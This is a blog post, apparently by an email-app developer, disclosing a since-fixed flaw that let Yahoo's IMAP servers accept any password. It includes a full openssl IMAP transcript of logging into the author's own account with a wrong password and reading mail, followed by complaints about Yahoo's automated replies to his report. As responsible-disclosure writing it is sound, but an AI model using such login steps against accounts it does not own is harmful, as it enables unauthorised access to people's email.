 ```yaml
---
title: I could log in to Yahoo Mail with any password
---
```


A little over a week ago I discovered a startling vulnerability in Yahoo Mail. I could log in to any of my accounts, and I presume many others, with any password. It seems to be fixed now, but Yahoo's response left much to be desired.

First I'll outline the vulnerability, then I'll discuss their response.

## Side note

I discovered this while working on [Triage](http://www.triage.cc), an iPhone app for busy people who struggle to stay on top of their email. [John Gruber said](http://daringfireball.net/linked/2013/04/18/triage) "since I’ve been using Triage, I’m more caught up on my email than I have been in years." You should [download Triage from the App Store now](http://www.appstore.com/triageemailfirstaid).

# The vulnerability

To be more specific, I could log into my accounts on Yahoo's IMAP servers with any password. Of the three accounts I tested, the first was created in April, the other two a couple of weeks ago. This issue didn't affect my colleague who had a much older Yahoo Mail account. Perhaps the date the accounts were created had something to do with it?

Here's a transcript of the commands I used. Nothing fancy. Just IMAP commands. I also made [a Youtube video of the vulnerability using three separate accounts](http://www.youtube.com/watch?v=u4Uvnct-3Sw).

    $ openssl s_client -host imap.mail.yahoo.com -port 993
    CONNECTED(00000003)
    depth=1 /C=US/O=DigiCert Inc/OU=www.digicert.com/CN=DigiCert High Assurance CA-3
    verify error:num=20:unable to get local issuer certificate
    verify return:0
    ---
    Certificate chain
     0 s:/C=US/ST=CA/L=Sunnyvale/O=Yahoo! Inc./CN=imap.mail.yahoo.com
       i:/C=US/O=DigiCert Inc/OU=www.digicert.com/CN=DigiCert High Assurance CA-3
     1 s:/C=US/O=DigiCert Inc/OU=www.digicert.com/CN=DigiCert High Assurance CA-3
       i:/C=US/O=DigiCert Inc/OU=www.digicert.com/CN=DigiCert High Assurance EV Root CA
    ---
    Server certificate
    -----BEGIN CERTIFICATE-----
    (removed for brevity)
    -----END CERTIFICATE-----
    subject=/C=US/ST=CA/L=Sunnyvale/O=Yahoo! Inc./CN=imap.mail.yahoo.com
    issuer=/C=US/O=DigiCert Inc/OU=www.digicert.com/CN=DigiCert High Assurance CA-3
    ---
    No client certificate CA names sent
    ---
    SSL handshake has read 3485 bytes and written 444 bytes
    ---
    New, TLSv1/SSLv3, Cipher is RC4-SHA
    Server public key is 2048 bit
    Secure Renegotiation IS supported
    Compression: NONE
    Expansion: NONE
    SSL-Session:
        Protocol  : TLSv1
        Cipher    : RC4-SHA
        Session-ID: B462753AD5E31875DF769ACE765FDE067090D390FB4ADAC9D8BF5286B4A9316E
        Session-ID-ctx: 
        Master-Key: 9A37586CD75F079581F6E9EB1F870109BE36A593E9B365331C0BE9BC1CE59C45139AEF1D1CC6E4D7087EEBD3C6A378D4
        Key-Arg   : None
        Start Time: 1368067492
        Timeout   : 300 (sec)
        Verify return code: 0 (ok)
    ---
    * OK [CAPABILITY IMAP4rev1 ID NAMESPACE X-ID-ACLID UIDPLUS LITERAL+ CHILDREN XAPPLEPUSHSERVICE XYMHIGHESTMODSEQ AUTH=PLAIN AUTH=LOGIN > AUTH=XYMCOOKIE AUTH=XYMECOOKIE AUTH=XYMCOOKIEB64 AUTH=XYMPKI] IMAP4rev1 imapgate-0.7.68_14.357900 imap402.mail.aue.yahoo.com
    1 LOGIN "mailtriageapp@yahoo.com" asdf
    1 OK AUTHENTICATE completed - Mailbox size in bytes is 32815
    2 SELECT INBOX
    * 3 EXISTS
    * 0 RECENT
    * OK [UIDVALIDITY 1366345105] UIDs valid
    * OK [UIDNEXT 19] Predicted next UID
    * FLAGS (\Answered \Flagged \Deleted \Seen \Draft)
    * OK [PERMANENTFLAGS (\Answered \Flagged \Deleted \Seen \Draft)] Permanent flags
    * OK [HIGHESTMODSEQ 5875762758974036000]
    2 OK [READ-WRITE] SELECT completed; now in selected state
    3 UID SEARCH UNSEEN
    * SEARCH 18 
    3 OK UID SEARCH completed
    4 UID FETCH 18 (UID FLAGS RFC822.SIZE ENVELOPE BODY.PEEK[HEADER.FIELDS (References)])
    * 3 FETCH (FLAGS (\Answered) UID 18 RFC822.SIZE 5781 ENVELOPE ("Thu, 9 May 2013 11:58:24 +1200" "Yaahooooo" (("Nick Malcolm" NIL > "nick" "malcolm.net.nz")) (("Nick Malcolm" NIL "nick" "malcolm.net.nz")) (("Nick Malcolm" NIL "nick" "malcolm.net.nz")) (("Mail > Triage" NIL "mailtriageapp" "yahoo.com")) NIL NIL NIL "<B3BF01ABA37D4DB1AB43C819DBDDE658@malcolm.net.nz>") BODY[HEADER.FIELDS (> REFERENCES)] {2}

    )
    4 OK UID FETCH completed

You can see, after connecting to the server, that I log in to the account "mailtriageapp@yahoo.com" with the password asdf. The password was not asdf, nor was it any of the other incorrect passwords I attempted. I could then open the Inbox, and read the first unready message.

To me that seems like a **huge** vulnerability.

# Yahoo's response

I immediately reported this to the Yahoo security team, and included transcripts of exploiting this with two of my accounts. This was on the 9th of May. Unfortunately, [like others have noted](http://www.nilsjuenemann.de/2013/05/yahoo-please-start-with-vulnerability.html), their response left much to be desired.

> "I refused to report more bugs to them because it's boring to talk with bots."

When you email security@yahoo-inc.com, you get an automated response: 

> This is an **automated message** acknowledging your recent submission for help to Yahoo! Customer Care.
>  
> Please do not reply to this automated message as replies will not been seen or answered by a Yahoo! Customer Care representative.
>  
> • If you reported abuse, we will investigate and take action where appropriate, and may be contacted if additional information is required to complete our investigation. We appreciate your efforts to make our community better.
>  
> • If you are submitting a request for assistance, or asking a question, a representative will respond as soon as possible.
>  
> Your Incident ID is: [removed]
>  
> Sincerely,
> The Yahoo! Customer Care Team


Like so many companies, Yahoo sent a "do not reply to this email" email. I simply can't understand why any company would want to ignore user feedback. At the very least it should be simple enough to tack a customer's response to the support ticket.

Later that day I got another seemingly automated response.

> Recently you requested personal assistance from our on-line support center. Below is a summary of your request and our response.
> 
> 
>  **Subject**
> I can log in to IMAP with incorrect password
>  
>  **Discussion Thread**
>  **Response Via Email (Leslie Davids)**
>
> Hello Nick,
>  
> Thank you for contacting Yahoo!.
>  
> I have analyzed your message, and it is best addressed by our Yahoo! Accounts team. To protect account security, this team requires specific information about your Yahoo! account that you provided during sign-up or when you last updated your account. I will need to ask you to [contact Yahoo! Accounts team](http://io.help.yahoo.com/contact/index?locale=en_US&y=PROD_ACCT&page=contact) directly to provide the necessary information to resolve your issue.
>  
> **Note**: Please do not reply to this message. Submitting an email through the form is the best way to get your answer.
>  
> Please visit Yahoo! Privacy Center for information regarding Yahoo!'s Privacy Policy.
>  
> Also, please read the help article about registering a Yahoo! ID.
>  
> For additional help with Yahoo! products, please visit the Yahoo Help pages.
>  
> Thank you again for contacting Yahoo!.
>  
> Regards,
>  
> Leslie Davids
>  
> Yahoo! Customer Care
> www.yahoo.com

The reason I suspect this is a robot:

 * Leslie "analyzed" my message. Who says they analyzed a message?!
 * Why would she suggest I learn how to register a Yahoo! ID? I obviously already have two of them.

Again I was faced with the familiar "Please do not reply to this message". To make matters worse, the suggested "contact Yahoo! Accounts team" link did not work in Chrome, Firefox, or Safari, neither when I was logged in or out of a Yahoo account.

I replied to Leslie with the strong suggestion of sending this directly to the security team, and also told her the contact form was broken. Later that night I made [the Youtube video](http://www.youtube.com/watch?v=u4Uvnct-3Sw), just to prove I wasn't making things up. 

About three days later I noticed that Yahoo was now refusing bad passwords. That's pretty quick, so at least someone is paying attention over there. All's well that ends well, I guess.

I'm not sure what I expected. It feels good to have reported my first vulnerability. Especially one which seems to be so simple, yet very serious and far reaching. A thank you might have been nice.

But I really wish all companies, from startups to global behemoths, would stop sending "Do not reply" messages. It's so impersonal. Just don't do it.